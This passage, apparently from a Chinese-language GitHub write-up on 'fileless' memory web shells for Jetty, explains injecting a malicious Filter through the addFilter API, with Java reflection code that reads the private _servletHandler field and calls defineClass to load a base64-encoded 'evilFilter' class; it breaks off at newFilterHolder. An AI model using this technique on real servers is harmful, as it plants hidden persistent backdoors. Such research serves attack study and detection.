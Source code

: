 #### 动态添加 Filter(基于addFilter API)

##### _servletHandler

![image-20211219011755109](fileless-shell.assets/image-20211219011755109.png)

- 通过Mbean的方式获取context后，context 获取其父类 ServletContextHandler的ServletHandler类型的私有变量_servletHandler，它实现了Servlet规范中Filter、Servlet的基本处理逻辑(重点)。

反射获取

```java
Field _servletHandler = webAppContext.getClass().getSuperclass().getDeclaredField("_servletHandler");
_servletHandler.setAccessible(true);
Object servletHandler = field.get(webAppContext);
```

##### defineClass

- 反射调用defineClass还原出base64_str中的evilFilter类

```java
ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
BASE64Decoder base64Decoder = new BASE64Decoder();
byte[] bytes = base64Decoder.decodeBuffer("base64_str");
Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
defineClass.setAccessible(true);
Class evilFilter = (Class) defineClass.invoke(contextClassLoader, bytes, 0, bytes.length);
```



##### newFilterHolder

![image-20211219012432285](fileless-shell.assets/image-20211219012432285.png)

